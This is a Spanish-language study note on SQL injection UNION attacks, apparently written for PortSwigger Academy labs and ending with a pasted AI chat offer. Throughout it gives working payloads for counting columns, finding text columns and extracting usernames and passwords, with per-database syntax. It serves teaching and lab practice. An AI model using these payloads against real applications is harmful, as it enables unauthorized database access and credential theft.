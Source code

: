 # UNION attacks

Cuando una aplicación es vulnerable a SQL injection **y** la salida de la consulta original se refleja en la respuesta HTTP, puedes inyectar un `UNION SELECT` para añadir filas controladas por ti al conjunto de resultados. Esto permite recuperar datos de otras tablas si consigues que la consulta inyectada tenga la misma estructura (nº de columnas y tipos compatibles) que la consulta original.

Ejemplo conceptual:

```sql
SELECT a, b FROM table1
UNION
SELECT c, d FROM table2;
```

El resultado es un único conjunto con dos columnas, combinando valores de `a,b` y `c,d`.

table1
| a | b |
| - | - |
| 1 | 2 |
| 3 | 4 |

table2
| c | d |
| - | - |
| 2 | 3 |
| 4 | 5 |

Consulta 1:
```sql
SELECT a, b FROM table1;
```
| a | b |
| - | - |
| 1 | 2 |
| 3 | 4 |

Consulta 2:
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
```
| a | b |
| - | - |
| 1 | 2 |
| 3 | 4 |
| 2 | 3 |
| 4 | 5 |



---

## Requisitos para que `UNION` funcione

1. **Mismo número de columnas** en cada `SELECT`.
2. **Tipos compatibles** entre columnas en cada posición (o convertibles).

Por eso la primera tarea al explotar un `UNION` es averiguar cuántas columnas devuelve la consulta original y cuáles de esas columnas pueden contener datos de tipo texto (string) donde poner tu payload.

---

## 1) Determinar cuántas columnas devuelve la consulta

Hay dos técnicas comunes.

### A — `ORDER BY` por posición


Inyectás `ORDER BY 1`, `ORDER BY 2`, `ORDER BY 3`, ... hasta que obtengas un error o un comportamiento diferencial. El primer `n` que falle indica que la consulta original tiene `n-1` columnas.

Payloads (si la aplicación ya envuelve el input con comillas):

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Si la app no muestra errores explícitos, observá diferencias en la respuesta (código, tamaño, contenido).

[Explicación Order by y UNION](https://github.com/juanpoch/PortSwigger_Academy/blob/main/Server-side/1_SQL_injection/1_Examining_the_database/Order_by.md)

### B — `UNION SELECT NULL,...` (prueba por conteo)

Inyectás `UNION SELECT NULL`, `UNION SELECT NULL,NULL`, etc., hasta que el `UNION` deje de fallar. Usamos `NULL` porque es convertible a la mayoría de tipos y minimiza errores de tipo.

Payloads (string context):

```
' UNION SELECT NULL--              -- prueba 1 columna
' UNION SELECT NULL, NULL--        -- prueba 2 columnas
' UNION SELECT NULL, NULL, NULL--  -- prueba 3 columnas
```

**Nota importante (Oracle):** Oracle no permite `SELECT <literal>` sin `FROM`. En Oracle debes usar `FROM DUAL`:

```
' UNION SELECT NULL FROM DUAL--
' UNION SELECT NULL, NULL FROM DUAL--
```

Si el `UNION` coincide con las columnas, verás una fila adicional (posiblemente con `NULL` en cada columna) o alguna diferencia en la respuesta.

`Nota`: Los payloads descritos utilizan la secuencia de comentarios de doble guion `--` para comentar el resto de la consulta original después del punto de inyección. En MySQL, la secuencia de doble guion debe ir seguida de un espacio. Como alternativa, se puede utilizar `#`


[Lab: SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query](1_SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)

---

## 2) Encontrar columnas adecuadas para datos de texto

Una vez sabes el número de columnas `N`, debes probar qué columnas aceptan texto. Envía una serie de payloads donde pones una cadena identificadora (`'injected1'`) en cada posición y `NULL` en las demás:

Por ejemplo, si hay 4 columnas:

```
' UNION SELECT 'a', NULL, NULL, NULL--
' UNION SELECT NULL, 'a', NULL, NULL--
' UNION SELECT NULL, NULL, 'a', NULL--
' UNION SELECT NULL, NULL, NULL, 'a'--
```

Si alguna de esas consultas no da error y la respuesta HTTP contiene la cadena `a` (por ejemplo en una celda de la tabla HTML), entonces esa posición es interesante para inyectar texto real (username, password, etc.).

Si al ejecutar el payload aparece un error del tipo "Conversion failed when converting the varchar value 'a' to data type int", entonces la posición no admite texto (la columna es numérica).


[Lab: SQL_injection_UNION_attack,_finding_a_column_containing_text](2_SQL_injection_UNION_attack,_finding_a_column_containing_text.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)

---

## 3) Exfiltrar datos con `UNION` una vez que conocemos columnas y tipos

Si sabes que la consulta original tiene 2 columnas y ambas admiten texto, y existe una tabla `users(username,password)`, un payload será:

```
' UNION SELECT username, password FROM users--
```

[Lab: SQL_injection_UNION_attack,_retrieving_data_from_other_tables](3_SQL_injection_UNION_attack,_retrieving_data_from_other_tables.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)


Para saber más:  

[Examining_the_database](https://github.com/juanpoch/PortSwigger_Academy/tree/main/Server-side/1_SQL_injection/1_Examining_the_database)  


Si desconocés los nombres de tabla/columnas, primero harás *enumeración* usando `information_schema` (MySQL/Postgres/SQL Server) o `all_tables` / `all_tab_columns` en Oracle.

---

## 4) Recuperar múltiples valores en una sola columna (concatenación)

[SQLi Cheet Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Si sólo hay 1 columna disponible, puedes concatenar varias columnas en una sola cadena separada por un separador reconocible:

* **Oracle:** `username || '~' || password`
* **MySQL:** `CONCAT(username, '~', password)` o `GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR ',')` para unir múltiples filas.
* **Postgres:** `username || '~' || password` o `string_agg(username || ':' || password, ',')`

Ejemplo Oracle con `UNION` (1 columna visible):

```
' UNION SELECT username || '~' || password FROM users--
```

---

## 5) Particularidades por base de datos

* **MySQL**: permite `UNION SELECT NULL` sin `FROM`. Comentarios: `-- ` necesita espacio; `#` también funciona. Uso frecuente de `GROUP_CONCAT` y `CONCAT`.
* **PostgreSQL**: permite `UNION SELECT NULL` y usa `||` para concatenar; también `string_agg` para agrupar.
* **Microsoft SQL Server**: `@@version`, `+` o `CONCAT()` para concatenar, `WAITFOR DELAY` para time-based.
* **Oracle**: **obligatorio** `FROM DUAL` si seleccionás literales; concatenación con `||`. Para `UNION` con literales: `SELECT 'a' FROM DUAL`.
* **SQLite**: admite `UNION SELECT NULL` y `||` para concatenación; metadatos en `sqlite_master`.

---


## 7) Consejos prácticos y trucos

* **Determina primero el motor**: si ves errores con `ORA-` o `SQLSTATE`, adapta payloads (DUAL, funciones, concatenadores).
* **Usa `NULL` al principio** para contar columnas y evitar errores de tipo. Luego prueba literales para identificar columnas de texto.
* **Identifica qué columna aparece en la página** reemplazando `NULL` por marcadores (`'col2_marker'`) y buscando en la respuesta HTML.
* **Si la app suprime errores**, inspecciona diferencias en longitud/respuesta o usa inyección ciega (time/boolean).
* **Evita payloads destructivos** en entornos reales. Solo en labs o con autorización.
* **Si `UNION` está bloqueado**, prueba técnicas de subqueries, error-based o time-based para enumerar la base.

---



¿Querés que suba esto al lienzo como archivo `SQLi_UNION_attacks.md` (ya lo creé) y además genere una versión con ejemplos listos para Burp Repeater codificados (URL-encoding) para MySQL y Oracle?"}
